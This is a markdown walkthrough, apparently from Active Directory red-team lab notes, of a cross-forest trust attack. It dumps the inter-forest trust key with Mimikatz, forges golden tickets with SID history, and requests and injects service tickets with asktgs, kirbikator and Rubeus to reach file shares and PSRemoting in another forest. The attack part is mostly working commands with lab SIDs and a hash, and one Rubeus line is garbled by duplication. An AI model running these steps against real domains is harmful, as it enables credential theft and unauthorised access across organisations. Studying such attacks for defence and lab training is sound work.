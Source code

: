 # Cross Forest Attack - Trust Key

- [Cross Forest Attack - Trust Key](#cross-forest-attack---trust-key)
  - [Trust Key](#trust-key)
  - [Access all resources - SID History](#access-all-resources---sid-history)

---

## Trust Key

By abusing the trust flow between forests in a two way trust, it is possible to access resources across the forest boundary.

We can use the **Trust Key**, the same way as in Domain trusts but we can **access only those resources which are explicitly shared with our current forest**.

Let's try to access a file share '`eushare`' on `euvendor-dc` of `euvendor.local` forest from `eu.local` which is explicitly shared with Domain Admins of `eu.local`. 

Note:
Trust Flow:
`us.techcorp.local` <--> `eu.local` <--> `euvendor.local` 

<br/>

![picture 7](images/e1b96eb7627e2e442f2bae11051093c20dc76a69fc808aeefe5814b05ad8e021.png)  

![picture 8](images/90bd2122e80172c54c18fa7f3c9b8d30264a198dac625bff7698ff0387b3d7be.png)  

<br/>

Like intra forest scenario, we require the trust key for the inter-forest trust.

```
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
```

or

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:eu\euvendor$"'
```

Tools like `SafetyKatz` / `SharpKatz` / `BetterSafetyKatz` work as well!

<br/>

An inter-forest TGT can be forged:

```
Invoke-Mimikatz -Command '"kerberos::golden /user:administrator /domain:eu.local /sid:S-1-5-21-3657428294-2017276338-1274645009 /rc4:799a0ae7e6ce96369aa7f1e9da25175a /service:krbtgt /target:euvendor.local /sids:S-1-5-21-4066061358-3942393892-617142613-519 /ticket:C:\AD\Tools\kekeo_old\sharedwitheu.kirbi"'
```

<br/>

Get a TGS for a service (`CIFS` below) in the target forest by using the forged trust ticket. Tickets for other services like the following can be created as well.

- `HOST` and `RPCSS` for `WMI`
- `HOST` and `HTTP` for PowerShell Remoting and WinRM 

```
.\asktgs.exe C:\AD\Tools\kekeo_old\sharedwitheu.kirbi CIFS/euvendor-dc.euvendor.local
```

Use the TGS to access the target resource which must be explicitly shared:

```
.\kirbikator.exe lsa CIFS.euvendor-dc.euvendor.local.kirbi
```

```
ls \\euvendor-dc.euvendor.local\eushare\
```

<br/>

Alternatively, we can use **Rubeus**:

```
C:\Users\Public\Rubeus.exe asktgs /ticket:C:\Users\Public\sharedwitheu.kirbi /service:CIFS/euvendor-dc.euvendor.local /dc:euvendor-dc.euvendor.local /ptt
```

<br/>

## Access all resources - SID History

This is fine but why can't we access all resources just like Intra forest?

**SID Filtering** is the answer. It filters high privilege SIDs from the `SIDHistory` of a TGT crossing forest boundary. This means we cannot just go ahead and access resources in the trusting forest as an Enterprise Admin. But there is a catch:

- `S-1-5-21-<Domain>-RR` >= 1000
- Identifiers for end user-created domain identities and domain groups
- Not filtered at domain and external trust boundaries. Can be filtered at member, quarantined, and cross-forest boundaries.

See also:<br/>
https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/55fc19f2-55ba-4251-8a6a-103dd7c66280

This means, if we have an **external trust** (or a **forest trust with SID history enabled** - `/enablesidhistory:yes`), we can inject a `SIDHistory` for `RID > 1000` to access resources accessible to that identity or group in the target trusting forest.

<br/>

We had DA access to `eu.local`. Let's enumerate trusts from a PSRemoting session on `eu-dc`:

```
Get-ADTrust -Filter *
```

`SIDFilteringForestAware` is set to True, it means `SIDHistory` is enabled across the forest trust. Remember that still only `RID > 1000` SIDs will be allowed across the trust boundary.

```
Get-ADGroup -Identity EUAdmins -Server euvendor.local
```

<br/>

From `eu-dc`, create a TGT with `SIDHistory` of EUAdmins group:

```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:eu.local /sid:S-1-5-21-3657428294-2017276338-1274645009 /rc4:799a0ae7e6ce96369aa7f1e9da25175a /service:krbtgt /target:euvendor.local /sids:S-1-5-21-4066061358-3942393892-617142613-1103 /ticket:C:\Users\Public\euvendornet.kirbi"'
```

<br/>

Then request a TGS:

```
.\asktgs.exe C:\Users\Public\euvendornet.kirbi HTTP/euvendor-net.euvendor.local
```

<br/>

Inject that into current session:

```
.\kirbikator.exe lsa HTTP.euvendor-net.euvendor.local.kirbi
```

or

```
C:\Users\Public\Rubeus.exe asktgs /ticket:C:\Users\Public\euvendornet.kirbi /service:HTTP/euvendor-/ticket:C:\Users\Public\euvendornet.kirbi /service:HTTP/euvendor-
```

<br/>

Access the `euvendor-net` machine using PSRemoting:

```
Invoke-Command -ScriptBlock{whoami} -ComputerName euvendor-net.euvendor.local -Authentication NegotiateWithImplicitCredential
```

<br/>

